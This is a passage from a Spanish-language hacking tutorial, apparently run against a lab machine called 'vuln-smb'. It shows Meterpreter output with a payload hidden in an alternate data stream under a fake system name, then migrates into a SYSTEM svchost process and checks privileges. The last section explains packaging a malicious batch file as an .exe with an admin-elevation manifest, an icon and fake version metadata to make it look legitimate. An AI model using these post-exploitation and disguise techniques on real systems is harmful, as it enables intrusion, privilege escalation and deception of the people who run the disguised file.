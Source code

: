 ```
 1752  836   dwm.exe                   x64   1        vuln-smb\diseo                C:\Windows\system32\Dwm.exe
 1768  1740  explorer.exe              x64   1        vuln-smb\diseo                C:\Windows\Explorer.EXE
 2004  464   wmpnetwk.exe              x64   0        NT AUTHORITY\Servicio de red  C:\Program Files\Windows Media Player\wmpnetwk.exe
 2500  2528  windowslog.txt:PuTTY.exe  x64   1        vuln-smb\diseo                C:\Windows\System32\wupdate.exe
```

```
584   464   svchost.exe    x64   0   NT AUTHORITY\SYSTEM C:\Windows\system32\svchost.exe
```

Ese mismo de ahi.

```shell
migrate 584
```

Info:

```
[*] Migrating from 2500 to 584...
[*] Migration completed successfully.
```

Y si vemos que usuario somos.

```shell
getuid
```

Info:

```
Server username: NT AUTHORITY\SYSTEM
```

Veremos que somos el usuario administrador.

## Pasarlo de .bat a .exe

Primero nos descargaremos la siguiente herramienta.

URL = https://mega.nz/file/XZJVQYyD#8RuAvD2chnl2sPiI3XqZblg74nMFkvPXx1fWVwSgM-I

Una vez hecho esto la descomprimimos y la ejecutamos, ahora pasaremos a la parte de configuracion.

Donde pone `Batch file:` elegiremos nuestro `.bat`, las demas opciones estan a gusto de cada uno.

(Donde pone `Add Vista administrador manifest` es para que cuando le des doble click al `.exe` te pida que lo ejecutes como administrador)

En la pestaña `Versioninformations` cragaremos un`.ico` en tal caso de que tengamos uno y si habilitamos la seccion de `Include Versioninformatios` podremos ser mas profesionales a la hora de los metadatos o la informacion que lleve ese ejecutable.

Una vez hecho todo eso le daremos a `Compilar` y ya estaria listo nuestro `.exe`.
